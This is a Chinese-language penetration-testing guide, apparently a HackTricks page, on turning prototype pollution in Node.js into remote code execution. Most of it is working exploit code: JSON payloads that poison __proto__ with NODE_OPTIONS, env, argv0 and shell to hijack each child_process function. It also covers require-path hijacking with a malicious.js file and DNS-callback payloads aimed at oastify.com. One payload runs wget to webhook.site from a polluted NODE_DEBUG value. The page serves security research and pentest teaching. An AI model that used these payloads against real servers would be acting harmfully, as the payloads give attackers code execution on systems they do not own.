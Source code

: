 # 原型污染到 RCE

{{#include ../../../banners/hacktricks-training.md}}

## 易受攻击的代码

想象一下一个真实的 JS 使用以下代码：
```javascript
const { execSync, fork } = require("child_process")

function isObject(obj) {
console.log(typeof obj)
return typeof obj === "function" || typeof obj === "object"
}

// Function vulnerable to prototype pollution
function merge(target, source) {
for (let key in source) {
if (isObject(target[key]) && isObject(source[key])) {
merge(target[key], source[key])
} else {
target[key] = source[key]
}
}
return target
}

function clone(target) {
return merge({}, target)
}

// Run prototype pollution with user input
// Check in the next sections what payload put here to execute arbitrary code
clone(USERINPUT)

// Spawn process, this will call the gadget that poputales env variables
// Create an a_file.js file in the current dir: `echo a=2 > a_file.js`
var proc = fork("a_file.js")
```
## PP2RCE 通过环境变量

**PP2RCE** 意味着 **原型污染到 RCE**（远程代码执行）。

根据这个 [**writeup**](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)，当一个 **进程被生成** 时，使用 **`child_process`** 中的某些方法（如 `fork` 或 `spawn` 或其他）会调用方法 `normalizeSpawnArguments`，这是一个 **原型污染工具，用于创建新的环境变量**：
```javascript
//See code in https://github.com/nodejs/node/blob/02aa8c22c26220e16616a88370d111c0229efe5e/lib/child_process.js#L638-L686

var env = options.env || process.env;
var envPairs = [];
[...]
let envKeys = [];
// Prototype values are intentionally included.
for (const key in env) {
ArrayPrototypePush(envKeys, key);
}
[...]
for (const key of envKeys) {
const value = env[key];
if (value !== undefined) {
ArrayPrototypePush(envPairs, `${key}=${value}`); // <-- Pollution
}
}
```
检查代码，你可以看到通过**污染**属性**`.env`**可以**毒害 `envPairs`**。

### **毒害 `__proto__`**

> [!WARNING]
> 请注意，由于**`child_process`**库中的**`normalizeSpawnArguments`**函数的工作方式，当调用某个函数以**设置新的环境变量**时，你只需要**污染任何东西**。\
> 例如，如果你执行`__proto__.avar="valuevar"`，进程将以名为`avar`且值为`valuevar`的变量启动。
>
> 然而，为了使**环境变量成为第一个**，你需要**污染****`.env`属性**，并且（仅在某些方法中）该变量将是**第一个**（允许攻击）。
>
> 这就是为什么在以下攻击中**`NODE_OPTIONS`**不在**`.env`**中的原因。
```javascript
const { execSync, fork } = require("child_process")

// Manual Pollution
b = {}
b.__proto__.env = {
EVIL: "console.log(require('child_process').execSync('touch /tmp/pp2rce').toString())//",
}
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ"

// Trigger gadget
var proc = fork("./a_file.js")
// This should create the file /tmp/pp2rec

// Abusing the vulnerable code
USERINPUT = JSON.parse(
'{"__proto__": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce\\").toString())//"}}}'
)

clone(USERINPUT)

var proc = fork("a_file.js")
// This should create the file /tmp/pp2rec
```
### 污染 `constructor.prototype`
```javascript
const { execSync, fork } = require("child_process")

// Manual Pollution
b = {}
b.constructor.prototype.env = {
EVIL: "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//",
}
b.constructor.prototype.NODE_OPTIONS = "--require /proc/self/environ"

proc = fork("a_file.js")
// This should create the file /tmp/pp2rec2

// Abusing the vulnerable code
USERINPUT = JSON.parse(
'{"constructor": {"prototype": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce2\\").toString())//"}}}}'
)

clone(USERINPUT)

var proc = fork("a_file.js")
// This should create the file /tmp/pp2rec2
```
## PP2RCE 通过环境变量 + 命令行

一个与之前类似的有效载荷经过一些更改后在 [**这篇文章**](https://blog.sonarsource.com/blitzjs-prototype-pollution/)**中提出**。主要区别如下：

- 它不是将 nodejs **有效载荷** 存储在文件 `/proc/self/environ` 中，而是存储在 **`/proc/self/cmdline`** 的 **argv0** 中。
- 然后，它不是通过 **`NODE_OPTIONS`** 要求文件 `/proc/self/environ`，而是 **要求 `/proc/self/cmdline`**。
```javascript
const { execSync, fork } = require("child_process")

// Manual Pollution
b = {}
b.__proto__.argv0 =
"console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//"
b.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"

// Trigger gadget
var proc = fork("./a_file.js")
// This should create the file /tmp/pp2rec2

// Abusing the vulnerable code
USERINPUT = JSON.parse(
'{"__proto__": {"NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce2\\").toString())//"}}'
)

clone(USERINPUT)

var proc = fork("a_file.js")
// This should create the file /tmp/pp2rec
```
## DNS 交互

使用以下有效负载，可以滥用我们之前讨论过的 NODE_OPTIONS 环境变量，并通过 DNS 交互检测其是否有效：
```json
{
"__proto__": {
"argv0": "node",
"shell": "node",
"NODE_OPTIONS": "--inspect=id.oastify.com"
}
}
```
或者，为了避免 WAF 询问域名：
```json
{
"__proto__": {
"argv0": "node",
"shell": "node",
"NODE_OPTIONS": "--inspect=id\"\".oastify\"\".com"
}
}
```
## PP2RCE 漏洞 child_process 函数

在本节中，我们将分析 **`child_process` 中的每个函数** 以执行代码，并查看我们是否可以使用任何技术强制该函数执行代码：

<details>

<summary><code>exec</code> 利用</summary>
```javascript
// environ trick - not working
// It's not possible to pollute the .env attr to create a first env var
// because options.env is null (not undefined)

// cmdline trick - working with small variation
// Working after kEmptyObject (fix)
const { exec } = require("child_process")
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 =
"console.log(require('child_process').execSync('touch /tmp/exec-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = exec("something")

// stdin trick - not working
// Not using stdin

// Windows
// Working after kEmptyObject (fix)
const { exec } = require("child_process")
p = {}
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = exec("something")
```
</details>

<details>

<summary><strong><code>execFile</code> 利用</strong></summary>
```javascript
// environ trick - not working
// It's not possible to pollute the .en attr to create a first env var

// cmdline trick - working with a big requirement
// Working after kEmptyObject (fix)
const { execFile } = require("child_process")
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 =
"console.log(require('child_process').execSync('touch /tmp/execFile-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = execFile("/usr/bin/node")

// stdin trick - not working
// Not using stdin

// Windows - not working
```
为了使 **`execFile`** 工作，它 **必须执行 node** 才能使 NODE_OPTIONS 生效。\
如果它 **没有** 执行 **node**，你需要找到如何 **通过环境变量** **更改执行** 的内容并设置它们。

**其他** 技术 **在** 没有此要求的情况下 **工作**，因为 **可以通过** 原型污染 **修改** **被执行的内容**。 （在这种情况下，即使你可以污染 `.shell`，你也不会污染正在执行的内容）。

</details>

<details>

<summary><code>fork</code> 利用</summary>
```javascript
// environ trick - working
// Working after kEmptyObject (fix)
const { fork } = require("child_process")
b = {}
b.__proto__.env = {
EVIL: "console.log(require('child_process').execSync('touch /tmp/fork-environ').toString())//",
}
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = fork("something")

// cmdline trick - working
// Working after kEmptyObject (fix)
const { fork } = require("child_process")
p = {}
p.__proto__.argv0 =
"console.log(require('child_process').execSync('touch /tmp/fork-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = fork("something")

// stdin trick - not working
// Not using stdin

// execArgv trick - working
// Only the fork method has this attribute
// Working after kEmptyObject (fix)
const { fork } = require("child_process")
b = {}
b.__proto__.execPath = "/bin/sh"
b.__proto__.argv0 = "/bin/sh"
b.__proto__.execArgv = ["-c", "touch /tmp/fork-execArgv"]
var proc = fork("./a_file.js")

// Windows
// Working after kEmptyObject (fix)
const { fork } = require("child_process")
b = {}
b.__proto__.execPath = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = fork("./a_file.js")
```
</details>

<details>

<summary><strong><code>spawn</code> 利用</strong></summary>
```javascript
// environ trick - working with small variation (shell and argv0)
// NOT working after kEmptyObject (fix) without options
const { spawn } = require("child_process")
p = {}
// If in windows or mac you need to change the following params to the path of ndoe
p.__proto__.argv0 = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.env = {
EVIL: "console.log(require('child_process').execSync('touch /tmp/spawn-environ').toString())//",
}
p.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = spawn("something")
//var proc = spawn('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)

// cmdline trick - working with small variation (shell)
// NOT working after kEmptyObject (fix) without options
const { spawn } = require("child_process")
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 =
"console.log(require('child_process').execSync('touch /tmp/spawn-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = spawn("something")
//var proc = spawn('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)

// stdin trick - not working
// Not using stdin

// Windows
// NOT working after require(fix) without options
const { spawn } = require("child_process")
p = {}
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = spawn("something")
//var proc = spawn('something',[],{"cwd":"C:\\"}); //To work after kEmptyObject (fix)
```
</details>

<details>

<summary><strong><code>execFileSync</code> 利用</strong></summary>
```javascript
// environ trick - working with small variation (shell and argv0)
// Working after kEmptyObject (fix)
const { execFileSync } = require("child_process")
p = {}
// If in windows or mac you need to change the following params to the path of ndoe
p.__proto__.argv0 = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.env = {
EVIL: "console.log(require('child_process').execSync('touch /tmp/execFileSync-environ').toString())//",
}
p.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = execFileSync("something")

// cmdline trick - working with small variation (shell)
// Working after kEmptyObject (fix)
const { execFileSync } = require("child_process")
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 =
"console.log(require('child_process').execSync('touch /tmp/execFileSync-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = execFileSync("something")

// stdin trick - working
// Working after kEmptyObject (fix)
const { execFileSync } = require("child_process")
p = {}
p.__proto__.argv0 = "/usr/bin/vim"
p.__proto__.shell = "/usr/bin/vim"
p.__proto__.input = ":!{touch /tmp/execFileSync-stdin}\n"
var proc = execFileSync("something")

// Windows
// Working after kEmptyObject (fix)
const { execSync } = require("child_process")
p = {}
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
p.__proto__.argv0 = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = execSync("something")
```
</details>

<details>

<summary><strong><code>execSync</code> 利用</strong></summary>
```javascript
// environ trick - working with small variation (shell and argv0)
// Working after kEmptyObject (fix)
const { execSync } = require("child_process")
p = {}
// If in windows or mac you need to change the following params to the path of ndoe
p.__proto__.argv0 = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.env = {
EVIL: "console.log(require('child_process').execSync('touch /tmp/execSync-environ').toString())//",
}
p.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = execSync("something")

// cmdline trick - working with small variation (shell)
// Working after kEmptyObject (fix)
const { execSync } = require("child_process")
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 =
"console.log(require('child_process').execSync('touch /tmp/execSync-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = execSync("something")

// stdin trick - working
// Working after kEmptyObject (fix)
const { execSync } = require("child_process")
p = {}
p.__proto__.argv0 = "/usr/bin/vim"
p.__proto__.shell = "/usr/bin/vim"
p.__proto__.input = ":!{touch /tmp/execSync-stdin}\n"
var proc = execSync("something")

// Windows
// Working after kEmptyObject (fix)
const { execSync } = require("child_process")
p = {}
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = execSync("something")
```
</details>

<details>

<summary><strong><code>spawnSync</code> 利用</strong></summary>
```javascript
// environ trick - working with small variation (shell and argv0)
// NOT working after kEmptyObject (fix) without options
const { spawnSync } = require("child_process")
p = {}
// If in windows or mac you need to change the following params to the path of node
p.__proto__.argv0 = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.env = {
EVIL: "console.log(require('child_process').execSync('touch /tmp/spawnSync-environ').toString())//",
}
p.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = spawnSync("something")
//var proc = spawnSync('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)

// cmdline trick - working with small variation (shell)
// NOT working after kEmptyObject (fix) without options
const { spawnSync } = require("child_process")
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 =
"console.log(require('child_process').execSync('touch /tmp/spawnSync-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = spawnSync("something")
//var proc = spawnSync('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)

// stdin trick - working
// NOT working after kEmptyObject (fix) without options
const { spawnSync } = require("child_process")
p = {}
p.__proto__.argv0 = "/usr/bin/vim"
p.__proto__.shell = "/usr/bin/vim"
p.__proto__.input = ":!{touch /tmp/spawnSync-stdin}\n"
var proc = spawnSync("something")
//var proc = spawnSync('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)

// Windows
// NOT working after require(fix) without options
const { spawnSync } = require("child_process")
p = {}
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = spawnSync("something")
//var proc = spawnSync('something',[],{"cwd":"C:\\"}); //To work after kEmptyObject (fix)
```
</details>

## 强制生成

在之前的示例中，您看到如何触发小工具，功能需要**调用 `spawn`**的功能**存在**（所有用于执行某些操作的**`child_process`**方法都会调用它）。在之前的示例中，这是**代码的一部分**，但如果代码**没有**调用它呢？

### 控制 require 文件路径

在这个 [**其他写作**](https://blog.sonarsource.com/blitzjs-prototype-pollution/) 中，用户可以控制将执行**`require`**的文件路径。在这种情况下，攻击者只需**找到系统中的一个 `.js` 文件**，该文件在导入时会**执行一个 spawn 方法。**\
一些常见的在导入时调用 spawn 函数的文件示例包括：

- /path/to/npm/scripts/changelog.js
- /opt/yarn-v1.22.19/preinstall.js
- 在下面**找到更多文件**

以下简单脚本将搜索**来自**`child_process`**的调用**，**没有任何填充**（以避免显示函数内部的调用）：
```bash
find / -name "*.js" -type f -exec grep -l "child_process" {} \; 2>/dev/null | while read file_path; do
grep --with-filename -nE "^[a-zA-Z].*(exec\(|execFile\(|fork\(|spawn\(|execFileSync\(|execSync\(|spawnSync\()" "$file_path" | grep -v "require(" | grep -v "function " | grep -v "util.deprecate" | sed -E 's/.{255,}.*//'
done
# Note that this way of finding child_process executions just importing might not find valid scripts as functions called in the root containing child_process calls won't be found.
```
<details>

<summary>之前脚本发现的有趣文件</summary>

- node_modules/buffer/bin/**download-node-tests.js**:17:`cp.execSync('rm -rf node/*.js', { cwd: path.join(__dirname, '../test') })`
- node_modules/buffer/bin/**test.js**:10:`var node = cp.spawn('npm', ['run', 'test-node'], { stdio: 'inherit' })`
- node_modules/npm/scripts/**changelog.js**:16:`const log = execSync(git log --reverse --pretty='format:%h %H%d %s (%aN)%n%b%n---%n' ${branch}...).toString().split(/\n/)`
- node_modules/detect-libc/bin/**detect-libc.js**:18:`process.exit(spawnSync(process.argv[2], process.argv.slice(3), spawnOptions).status);`
- node_modules/jest-expo/bin/**jest.js**:26:`const result = childProcess.spawnSync('node', jestWithArgs, { stdio: 'inherit' });`
- node_modules/buffer/bin/**download-node-tests.js**:17:`cp.execSync('rm -rf node/*.js', { cwd: path.join(__dirname, '../test') })`
- node_modules/buffer/bin/**test.js**:10:`var node = cp.spawn('npm', ['run', 'test-node'], { stdio: 'inherit' })`
- node_modules/runtypes/scripts/**format.js**:13:`const npmBinPath = execSync('npm bin').toString().trim();`
- node_modules/node-pty/scripts/**publish.js**:31:`const result = cp.spawn('npm', args, { stdio: 'inherit' });`

</details>

### 通过原型污染设置 require 文件路径

> [!WARNING]
> **之前的技术要求** **用户控制将要被 require 的文件路径**。但这并不总是正确的。

然而，如果代码在原型污染后执行 require，即使你 **不控制将要被 require 的路径**，你 **可以通过滥用原型污染强制使用不同的路径**。因此，即使代码行是 `require("./a_file.js")` 或 `require("bytes")`，它将 **require 你污染的包**。

因此，如果在你的原型污染后执行了 require 并且没有 spawn 函数，这就是攻击：

- 找到一个 **系统内的 `.js` 文件**，当 **被 require 时** 将 **使用 `child_process` 执行某些操作**
- 如果你可以向你攻击的平台上传文件，你可以上传这样的文件
- 污染路径以 **强制 require 加载将使用 child_process 执行某些操作的 `.js` 文件**
- **污染环境/命令行** 以在调用 child_process 执行函数时执行任意代码（参见初始技术）

#### 绝对 require

如果执行的 require 是 **绝对的** (`require("bytes")`)，并且 **包在 `package.json` 文件中不包含 main**，你可以 **污染 `main` 属性** 并使 **require 执行不同的文件**。

{{#tabs}}
{{#tab name="exploit"}}
```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Install package bytes (it doesn't have a main in package.json)
// npm install bytes

// Manual Pollution
b = {}
b.__proto__.main = "/tmp/malicious.js"

// Trigger gadget
var proc = require("bytes")
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist

// Abusing the vulnerable code
USERINPUT = JSON.parse(
'{"__proto__": {"main": "/tmp/malicious.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce_absolute\\").toString())//"}}'
)

clone(USERINPUT)

var proc = require("bytes")
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
{{#endtab}}

{{#tab name="malicious.js"}}
```javascript
const { fork } = require("child_process")
console.log("Hellooo from malicious")
fork("anything")
```
{{#endtab}}
{{#endtabs}}

#### 相对 require - 1

如果加载的是 **相对路径** 而不是绝对路径，您可以使 node **加载不同的路径**：

{{#tabs}}
{{#tab name="exploit"}}
```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {}
b.__proto__.exports = { ".": "./malicious.js" }
b.__proto__["1"] = "/tmp"

// Trigger gadget
var proc = require("./relative_path.js")
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist

// Abusing the vulnerable code
USERINPUT = JSON.parse(
'{"__proto__": {"exports": {".": "./malicious.js"}, "1": "/tmp", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce_exports_1\\").toString())//"}}'
)

clone(USERINPUT)

var proc = require("./relative_path.js")
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
{{#endtab}}

{{#tab name="malicious.js"}}
```javascript
const { fork } = require("child_process")
console.log("Hellooo from malicious")
fork("/path/to/anything")
```
{{#endtab}}
{{#endtabs}}

#### 相对 require - 2

{{#tabs}}
{{#tab name="exploit"}}
```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {}
b.__proto__.data = {}
b.__proto__.data.exports = { ".": "./malicious.js" }
b.__proto__.path = "/tmp"
b.__proto__.name = "./relative_path.js" //This needs to be the relative path that will be imported in the require

// Trigger gadget
var proc = require("./relative_path.js")
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist

// Abusing the vulnerable code
USERINPUT = JSON.parse(
'{"__proto__": {"data": {"exports": {".": "./malicious.js"}}, "path": "/tmp", "name": "./relative_path.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce_exports_path\\").toString())//"}}'
)

clone(USERINPUT)

var proc = require("./relative_path.js")
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
{{#endtab}}

{{#tab name="malicious.js"}}
```javascript
const { fork } = require("child_process")
console.log("Hellooo from malicious")
fork("/path/to/anything")
```
{{#endtab}}
{{#endtabs}}

#### 相对require - 3

与之前的类似，这在[**这篇文章**](https://blog.huli.tw/2022/12/26/en/ctf-2022-web-js-summary/#balsn-ctf-2022-2linenodejs)中发现。
```javascript
// Requiring /opt/yarn-v1.22.19/preinstall.js
Object.prototype["data"] = {
exports: {
".": "./preinstall.js",
},
name: "./usage",
}
Object.prototype["path"] = "/opt/yarn-v1.22.19"
Object.prototype.shell = "node"
Object.prototype["npm_config_global"] = 1
Object.prototype.env = {
NODE_DEBUG:
"console.log(require('child_process').execSync('wget${IFS}https://webhook.site?q=2').toString());process.exit()//",
NODE_OPTIONS: "--require=/proc/self/environ",
}

require("./usage.js")
```
## VM Gadgets

在论文 [https://arxiv.org/pdf/2207.11171.pdf](https://arxiv.org/pdf/2207.11171.pdf) 中也指出，**`vm`** 库某些方法的 **`contextExtensions`** 控制可以作为一个 gadget。\
然而，与之前的 **`child_process`** 方法一样，它在最新版本中已被 **修复**。

## Fixes & Unexpected protections

请注意，原型污染在访问的对象的 **attribute** 为 **undefined** 时有效。如果在 **code** 中该 **attribute** 被 **设置** 为一个 **value**，你 **将无法覆盖它**。

在 2022 年 6 月，从 [**this commit**](https://github.com/nodejs/node/commit/20b0df1d1eba957ea30ba618528debbe02a97c6a) 开始，变量 `options` 不再是 `{}`，而是 **`kEmptyObject`**。这 **防止了原型污染** 影响 **`options`** 的 **attributes** 以获得 RCE。\
至少从 v18.4.0 开始，这种保护已被 **实施**，因此 `spawn` 和 `spawnSync` 的 **exploits** 不再影响这些方法（如果不使用 `options`！）。

在 [**this commit**](https://github.com/nodejs/node/commit/0313102aaabb49f78156cadc1b3492eac3941dd9) 中，vm 库的 **`contextExtensions`** 的 **prototype pollution** 也通过将选项设置为 **`kEmptyObject`** 而 **部分修复**，而不是 **`{}`**。

### **Other Gadgets**

- [https://github.com/yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution)
- [https://github.com/KTH-LangSec/server-side-prototype-pollution](https://github.com/KTH-LangSec/server-side-prototype-pollution)

## References

- [https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
- [https://blog.sonarsource.com/blitzjs-prototype-pollution/](https://blog.sonarsource.com/blitzjs-prototype-pollution/)
- [https://arxiv.org/pdf/2207.11171.pdf](https://arxiv.org/pdf/2207.11171.pdf)
- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}
